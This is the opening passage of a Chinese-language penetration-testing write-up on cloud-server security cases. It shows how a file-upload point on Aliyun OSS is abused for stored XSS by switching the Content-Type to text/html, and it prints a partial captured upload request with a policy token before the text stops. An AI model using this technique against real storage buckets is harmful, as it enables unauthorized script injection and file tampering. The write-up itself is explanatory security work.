 0x00 写在前面
=========

现在，云服务器逐渐进入人们的视野，越来越受欢迎，由于云服务器易管理，操作性强，安全程度高，很多大型厂商都选择将资产部署在云服务上，但随之也出现了一些安全问题，接下来将介绍五个案例，由于以下的案例大多都是真实案例，所以打码会打得严重些。

0x01 案例演示
=========

从任意文件上传到任意文件覆盖
--------------

遇到一个文件上传点

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/05/attach-12321be5603402e2a0b1765949f85670378f021d.png)

先上传一个图片，并抓包，成功上传，上传html文件看是否能xss，能够上传但是上传后不解析，继续更改Content-Type的值为text/html，上传后成功弹窗。

包如下:

```php
POST / HTTP/1.1

Host: xxxx.aliyuncs.com

Connection: close

Content-Length: 1077

Accept: application/json, text/plain, \*/\*

Origin: https://xxxxxx

User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.121 Safari/537.36

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryral5YOuPBEepOBbe

Referer: https://xxxx.cn/xx/

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

\------WebKitFormBoundaryral5YOuPBEepOBbe

Content-Disposition: form-data; name="name"

165027756922712.png

\------WebKitFormBoundaryral5YOuPBEepOBbe

Content-Disposition: form-data; name="key"

20220418/3a7166a3063f7a82774bdd62727fb5fa251650277569228.png

\------WebKitFormBoundaryral5YOuPBEepOBbe

Content-Disposition: form-data; name="policy"

eyJleHBpcmF0aW9uIjoiMjAyMi0wNC0xOFQxNzoyMzoyOFoiLCJjb25kaXRpb25zIjpbWyJjb250ZW50LWxlbmd0aC1yYW5nZSIsMCwxMDQ4NTc2MDAwXSxbInN0YXJ0cy13aXRoIiwiJGtleSIsIjIwMjIwNDE4XC8iXV19

\------WebKitFormBoundaryral5YOuPBEepOBbe

Content-Disposition: form-data; name="OSSAccessKeyId"

```